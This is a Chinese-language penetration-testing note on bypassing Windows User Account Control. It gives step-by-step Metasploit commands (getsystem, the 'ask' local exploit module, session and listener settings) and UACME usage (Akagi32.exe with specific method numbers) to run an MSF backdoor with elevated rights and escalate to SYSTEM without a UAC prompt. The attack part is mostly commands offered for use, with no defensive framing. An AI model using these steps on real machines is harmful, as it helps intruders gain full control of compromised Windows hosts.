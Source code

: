 <https://www.freebuf.com/articles/web/288239.html>
UAC是Windows系统中的一种安全机制，用于防止恶意软件在没有管理员权限的情况下执行操作（弹出弹窗手动确定才能运行）。

UAC四个等级：
```
始终通知：这是最严格的设置，每当有程序需要使用高级别的权限时都会提示本地用户。
仅在程序试图更改我的计算机时通知我(UAC的默认设置)：当本地Windows程序要使用高级别的权限时，不会通知用户。但是，当第三方程序要使用高级别的权限时，会提示本地用户。
仅在程序试图更改我的计算机时通知我(不降低桌面的亮度)：与上一条设置的要求相同，但在提示用户时不降低桌面的亮度
从不提示：当用户为系统管理员时，所有程序都会以最高权限运行。
```
bypassUAC：
为了远程执行目标的exe或者bat可执行文件绕过此安全机制，以此叫bypassUAC
绕过项目：MSF内置（推荐），Powershell渗透框架，UACME项目（推荐）
有的exp可能会自动绕过UAC，如烂土豆BadPotato可能还会尝试绕过UAC。


## **MSF的bypassUAC提权**
msf上线后会话中
```
getsystem //自动寻找msf中提权
getuid
```
win10+有UAC保护时，可能不成功。

此时可以搜索bypassUAC模块使用。
>使用前提有两个：
>一是系统当前用户必须在管理员组中
>二是用户账户控制程序UAC设置为默认，即"仅在程序试图更改我的计算机时通知我"
```
search uac 查看对应系统版本的
use exploit/windows/local/ask    ##选择模块
sessions         ##查看后台会话
set session 1    ##选择应用的会话ID
set lport 5555   ##设置监听端口，有时候返回回来会出现错误，所以就另起一个监听。
```
模块选择：
![image-20240504235841953](http://cdn.33129999.xyz/mk_img/image-20240504235841953.png)

^
## **UACME工具绕过UAC**
支持大部分win10/11和win服务器。
需要用VS编译成exe，也可以网上用现成版exe。Akagi32.exe和Akagi64.exe
<https://github.com/hfiref0x/UACME>
使用：
上传目标主机后运行，绕过UAC配合MSF提权。
```
有70个绕过，41和23，61最好用
Akagi32.exe 41
Akagi32.exe 23
此时弹出新的cmd，里面运行的是高权限，且不会触发UAC

运行MSF后门程序上线
Akagi32.exe 41  ./msf.exe

此时MSF监听上线，进入会话
getsystem //成功不提示UAC提权至system
getuid
```